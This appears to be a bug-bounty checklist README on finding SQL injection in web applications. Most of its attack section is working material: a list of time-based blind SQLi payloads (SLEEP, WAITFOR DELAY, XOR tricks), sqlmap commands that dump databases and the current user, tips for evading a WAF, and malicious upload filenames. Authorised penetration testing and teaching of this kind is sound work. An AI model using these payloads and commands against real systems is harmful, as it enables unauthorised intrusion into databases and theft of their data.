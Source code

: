## How to find SQL injectiosn vulnerability?

## 1) Logical Operation
One of the best ways to confirm a SQL injection is by making it operate a logical operation and having the expected results.
For example: if the GET parameter `?username=Peter` returns the same content as `?username=Peter'` or `?username=Peter+'1'='1` then, you found a SQL injection.

## 2) Time Based SQL Injection
Most relative place for inject SQL payloads as [POST Request] are in Login page (username parameter), Forget password page (username parameter), Singup Page (firstname and last name) 


Payloads:
```
orwa' AND (SELECT 6377 FROM (SELECT(SLEEP(5)))hLTl)--
(SlEeP%09(14-(5-2)))
')) or sleep(5)=' 
' WAITFOR DELAY '0:0:5'-- 
;waitfor delay '0:0:5'-- 
);waitfor delay '0:0:5'-- 
';waitfor delay '0:0:5'-- 
";waitfor delay '0:0:5'-- 
');waitfor delay '0:0:5'-- 
");waitfor delay '0:0:5'-- 
));waitfor delay '0:0:5'-- 
0"XOR(if(now()=sysdate(),sleep(12),0))XOR"Z
0"XOR(if(now()=sysdate(),sleep(12),0))XOR"Z%20=%3E
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z
```

![image](https://user-images.githubusercontent.com/63053441/155585150-722a2ec2-787d-42bd-85d7-30c6401f8031.png)

### How To Test?

 1) Use this [wordlist](https://raw.githubusercontent.com/0xmaximus/Galaxy-Bugbounty-Checklist/main/SQL%20injection/SQL.txt) with intruder and inject all payloads in relative parameters and headers(User-Agent, Cookies, Referer, x-requested-with and ...)  
 2) After you got DELAY, save request in txt file and use sqlmap for confirm and exploit vulnerability

```
sqlmap -r request.txt -p parameter-name --force-ssl --level 5 --risk 3  --dbs --hostname --current-user
sqlmap -r txt -p user --force-ssl --level 5 --risk 3
sqlmap -r request.txt -p email/username --force-ssl -level 5 --risk 3 --dbms="MySQL" --test-filter="MySQL >= 5.0.12 AND time-based blind (query SLEEP)"
```

Sometimes you cant exploits because most modern web apps use WAF & user input validation before execute it so you can try with:
- change request form POST to GET or in reverse
- Use `--random-agent`


## 3) File Uploaders SQLi
Save file with this names and upload it in site
```
--sleep(15).png
--sleep(6*3).png
--sleep(25).png
--sleep(5*7).png
pic.png;waitfor delay '0:0:5'-- 
```

Refrence:

https://twitter.com/GodfatherOrwa
